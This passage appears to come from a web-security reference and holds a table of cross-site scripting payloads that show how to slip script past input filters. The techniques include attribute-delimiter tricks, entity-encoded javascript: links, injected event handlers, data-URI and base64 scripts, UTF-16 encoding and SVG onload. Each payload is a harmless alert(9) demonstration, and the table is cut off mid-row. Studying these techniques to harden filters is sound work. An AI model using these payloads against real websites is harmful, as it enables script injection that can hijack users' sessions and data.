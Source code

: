 3 This is a quirk of jQuery's design choice for overloading the $() API to accept selectors or elements. Read about the interplay of JavaScript and Content Security Policy on the blog.   



## Table 2: Payload Crafting Techniques to Bypass Filters and Data Validation  

+-----------------+------------------------+-----------------------------------------------------------------------------------+
| Concept         | Notes                  | Payload Example                                                                   |
+=================+========================+===================================================================================+
| Alternate <br>  | Foward slash           | `<img/src=""onerror=alert(9)>`                                                    |
| attribute <br>  | Dangling quoted string | `<a'' href'' onclick=alert(9)>foo</a>`                                            |
| delimiters      |                        | `<a"" href=""onclick=alert(9)>foo</a>`                                            |
|                 | CRLF instead of space  | `<img%0d%0asrc=""%0d%0aonerror=alert(9)>`                                         |
|                 |                        |                                                                                   |
+-----------------+------------------------+-----------------------------------------------------------------------------------+
| HTML <br>       | JavaScript scheme      | `<a href="java&#115;cript:alert(9)">foo</a>`                                      |
| entity <br>     | (Decimal, hex, <br>    | `<a href="java&#x73;cript:alert(9)">foo</a>`                                      |
| encoding <br>   | unicode)               | `<a href="java&#x0073;cript:alert(9)">foo</a>`                                    |
+-----------------+------------------------+-----------------------------------------------------------------------------------+
| JavaScript <br> | Unquoted               | `<input type=text name=foo value=a%20onchange=alert(9)>`                          |
| inline          | Double-quoted          | `<input type="text" name="foo" value=""onmouseover=alert(9)//">`                  |
| event handlers  | Single-quoted          | `<input type='text' name='foo' value=''onclick=alert(9)//'>`                      |
| html4 or html5  | HTML5 autofocus        | `<input type="text" name="foo" value=""autofocus/onfocus=alert(9)//">`            |
+-----------------+------------------------+-----------------------------------------------------------------------------------+
| Data URI        | src & href attributes  | `<a href="data:text/html,<script>alert(9)</script>">foo</a>`                      |
| handlers        |                        | `<script src="data:,alert(9)"></script>`                                          |
|                 |                        | `<script src="data:application/x-javascript,alert(9)"></script>`                  |
|                 |                        |                                                                                   |
|                 | Base64 data            | `<a href="data:text/html;base64,PHNjcmlwdD5hbGVydCg5KTwvc2NyaXB0Pg">foo</a>`      |
|                 |                        | `<script src="data:;base64,YWxlcnQoOSk"></script>`                                |
|                 |                        |                                                                                   |
|                 | Alternate <br>         | `<a href="data:text/html;charset=utf-16,`                                         |
|                 | character sets         | `%ff%fe%3c%00s%00c%00r%00i%00p%00t%00%3e`                                         |
|                 |                        | `%00a%00l%00e%00r%00t%00(%009%00)%00`                                             |
|                 |                        | `<%00/%00s%00c%00r%00i%00p%00t%00>%00">foo</a>`                                   |
+-----------------+------------------------+-----------------------------------------------------------------------------------+
| Alternate <br>  | SVG                    | `<svg onload="javascript:alert(9)" xmlns="http://www.w3.org/2000/svg"></svg>`     |
| markup          |                        | `<svg xmlns="http://www.w3.org/2000/svg">`                                        |